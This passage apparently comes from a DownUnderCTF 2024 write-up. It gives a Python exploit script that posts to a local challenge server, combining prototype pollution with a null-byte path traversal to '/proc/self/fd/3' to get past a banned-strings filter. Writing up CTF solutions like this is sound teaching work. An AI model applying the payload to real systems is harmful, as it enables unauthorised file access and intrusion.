 ![alt text](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/15_downunderctf_2024/image-39.png)

With this, we can actually use `/proc/self/fd/3` instead of using any of the **BANNED_STRINGS** such as `.ts` or `app`.

```py
import requests

body = {"data":{"signed.name":"jeff","signed.animalType":"emu","signed.age":12,"signed.crime":"assault","signed.description":"clotheslined someone with their neck","signed.start":"2024-03-02T10:45:01Z","signed.release":"2054-03-02T10:45:01Z",
"signed.__proto__":{"outputPrefix":"../../proc/self/fd/3\00"}
},"signature":"718494ab34fb37e1adeea4b4c87de8feb9aa504310d8c67af693928d6377af13"}
r = requests.post("http://localhost:1337/convert-to-yaml",json=body)
print(r.text)
```
